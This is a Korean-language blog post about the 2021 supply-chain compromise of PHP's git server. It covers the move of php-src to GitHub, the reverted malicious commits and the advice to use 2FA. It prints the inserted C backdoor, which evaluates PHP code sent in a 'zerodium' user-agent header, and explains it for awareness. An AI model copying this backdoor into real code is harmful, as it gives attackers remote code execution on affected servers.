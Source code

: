 ```yaml
---
layout: post
id: 20
title: "PHP의 git 서버가 해킹되었습니다."
subtitle: "PHP가 공급망 공격을 당했습니다."
description: "PHP의 깃 서버인 git.php.net이 공급망 공격을 당해 앞으론 github이 메인으로 사용되어집니다."
type: "PHP"
created_at: "2021-03-29"
updated_at: "2021-03-29"
blog: true
text: true
author: "silnex"
post-header: true
header-img: "img/hacked-php.png"
order: 20
tags: ["php", "hacking", "supply-chain-attack"]
comments: true
---
```


> PHP 인터널 공지: [https://news-web.php.net/php.internals/113838](https://news-web.php.net/php.internals/113838)

# TR; TL;

PHP의 git 서버가 공급망 해킹에 당해 앞으로 php-src는 Github를 메인으로 사용합니다.  
하지만 서버에 설치된 PHP가 취약한 것은 아닙니다.  
다만, `php-src` 를 직접 컴파일하여 사용하시는 분은 악성 커밋([1](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d), [2](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a))이 소스코드에 포함되어 있는지 확인이 필요합니다.

# 공급망 공격? (Supply chain attack)

공급망 공격이란 기존의 어플리케이션이나, 서비스를 공격했던 방식이 아닌 어플리케이션 혹은 서비스에서 사용중인 vendor에 악성 코드를 심는 방식으로,
최근 오픈소스로 관리되어지는 vendor혹은 패키지의 수가 많아지고, 누구나 수정할 수 있는 점을 이용한 공격 방식입니다.

# PHP에 삽입된 악성 코드

```c
	zval *enc;

	if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
		(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
		convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
			} zend_end_try();
		}
	}
```
이 코드는 HTTP 헤더에 zerodium이 있을 때 User agent에 삽입된 PHP코드를 실행 시키는 악성 코드입니다.

근데 이 악성커밋의 작성자가 PHP 주요 개발자인 `Nikita Popov`계정과 `Rasmus Lerdorf`계정으로 푸시되어 있어 [PHP internals](https://news-web.php.net/php.internals)에서 많은 이야기가 오고 갔습니다.

Nikita Popov는 최종적으로 자체 git 서버가 아닌 기존에 미러용으로 사용하던 Github의 Repo에서 관리하기로 했으며, 개발자들에게 `2FA`를 사용하라고 권고 했습니다.

# 복구 및 피해 규모

악성 커밋은 모두 Revert 되었으며, 현재 모든 Repo에 대해서 악성 커밋을 확인하고 있다고 합니다.

PHP 보안팀과 Nikita Popov가 확인한 결과 악성 커밋이 완료된 후 Fork나 Clone된 경우가 있긴 하지만, 실제 릴리즈에는 포함되지 않는단고 전했습니다.  
또한 Nikita Popov는 해당 브랜치는 PHP 8.1 개발용 브랜치로 연말에 출시될 예정이였다고 합니다.

이후 기존의 git 서버는 폐기되고 Github로 이동된다고 합니다.

# 마치면서

공급망 공격에 대한 경각심을 불러 일으킬만한 아주 좋은 예시가 이번에 생긴것같습니다. (PHP가 아니였음 했지만.. ㅜ)

더욱이 기존 프로젝트들이 외부 패키지나 라이브러리를 많이 의존하고 있었는데, 이후 최대한 자체 패키지나, 패키지 도입에 대해서 신중히 고민할 필요성이 생긴 것 같습니다.